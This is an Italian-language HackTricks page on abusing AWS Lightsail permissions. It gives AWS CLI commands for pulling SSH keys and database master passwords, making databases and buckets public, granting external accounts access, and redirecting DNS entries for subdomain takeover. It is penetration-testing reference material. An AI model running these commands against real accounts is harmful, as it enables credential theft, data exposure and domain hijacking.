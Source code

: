 # AWS - Lightsail Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Lightsail

Per maggiori informazioni su Lightsail consulta:

{{#ref}}
../../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> È importante notare che Lightsail **non usa IAM roles appartenenti all'utente** ma un account gestito da AWS, quindi non puoi abusare di questo servizio per privesc. Tuttavia, **dati sensibili** come code, API keys e informazioni sul database potrebbero essere trovati in questo servizio.

### `lightsail:DownloadDefaultKeyPair`

Questa autorizzazione ti permetterà di ottenere le SSH keys per accedere alle istanze:
```
aws lightsail download-default-key-pair
```
**Impatto potenziale:** Trovare informazioni sensibili all'interno delle istanze.

### `lightsail:GetInstanceAccessDetails`

Questa autorizzazione ti permetterà di generare chiavi SSH per accedere alle istanze:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impatto potenziale:** Trovare informazioni sensibili all'interno delle istanze.

### `lightsail:CreateBucketAccessKey`

Questa autorizzazione ti permetterà di ottenere una chiave per accedere al bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impatto potenziale:** Trovare informazioni sensibili all'interno del bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Questa autorizzazione ti permetterà di ottenere le credenziali per accedere al database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impatto potenziale:** Trovare informazioni sensibili all'interno del database.

### `lightsail:UpdateRelationalDatabase`

Questa autorizzazione ti consentirà di cambiare la password per accedere al database:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Se il database non è pubblico, potresti anche renderlo pubblico con queste autorizzazioni
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Impatto potenziale:** Trovare informazioni sensibili all'interno del database.

### `lightsail:OpenInstancePublicPorts`

Questa autorizzazione consente di aprire porte verso Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impatto potenziale:** Accesso a porte sensibili.

### `lightsail:PutInstancePublicPorts`

Questa autorizzazione consente di aprire porte verso Internet. Nota che la chiamata chiuderà qualsiasi porta aperta non specificata.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impatto potenziale:** Accesso a porte sensibili.

### `lightsail:SetResourceAccessForBucket`

Questa autorizzazione consente di concedere a un'istanza l'accesso a un bucket senza credenziali aggiuntive
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Potenziale impatto:** Possibile nuovo accesso ai buckets contenenti informazioni sensibili.

### `lightsail:UpdateBucket`

Con questo permesso un attacker potrebbe concedere al proprio account AWS l'accesso in lettura ai buckets o addirittura rendere i buckets pubblici per tutti:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impatto potenziale:** Possibile nuovo accesso a buckets contenenti informazioni sensibili.

### `lightsail:UpdateContainerService`

Con questa permission un attacker potrebbe concedere accesso a ECR privati dal containers service
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impatto potenziale:** Ottenere informazioni sensibili da ECR privato

### `lightsail:CreateDomainEntry`

Un attacker con questo permesso potrebbe creare un sottodominio e puntarlo al proprio indirizzo IP (subdomain takeover), o creare un record SPF che gli permette di falsificare email dal dominio, o persino impostare il dominio principale sul proprio indirizzo IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impatto potenziale:** Prendere il controllo di un dominio

### `lightsail:UpdateDomainEntry`

Un attaccante con questa autorizzazione potrebbe creare sottodomini e puntarli al proprio indirizzo IP (subdomain takeover), oppure creare un SPF record che gli consenta di spoofare email dal dominio, o persino impostare il dominio principale sul proprio indirizzo IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impatto potenziale:** Takeover di un dominio

{{#include ../../../../banners/hacktricks-training.md}}
